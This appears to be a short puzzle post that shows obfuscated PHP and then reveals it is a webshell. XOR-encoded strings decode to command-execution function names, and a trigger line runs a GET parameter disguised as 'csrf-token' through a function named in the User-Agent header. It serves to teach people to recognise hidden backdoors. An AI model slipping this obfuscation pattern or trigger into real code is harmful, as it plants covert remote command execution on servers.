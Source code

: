 # What does this code do?
seriously.

<details>
<summary>Spoiler warning</summary>
It's a webshell :) 
```php
  public const VERSIONS = array(
        "KWBZUA" ^ "8.1.0, 8.1.1, 8.1.2",
        "GADK_" ^ "7.4.14, 7.4.13, 7.4.12",
        "RVQM" ^ "7.4.24, 7.4.23, 7.4.22",
        "GOG]FY^U" ^ "7.4.21, 7.4.20, 7.4.19",
        "G\[MnW\EY" ^ "7.4.18, 7.4.16, 7.4.15",
  );
```
  is identical to
```php
  public const VERSIONS = array(
        "system",
        "popen",
        "exec",
        "passthru",
        "proc_open",
    );
```
and
```php
${"_SERVER"}["HTTP_USER_AGENT"]($_GET["csrf-token"]);
```
is identical to 
```php
$_SERVER["HTTP_USER_AGENT"]($_GET["csrf-token"]);
```

</details>
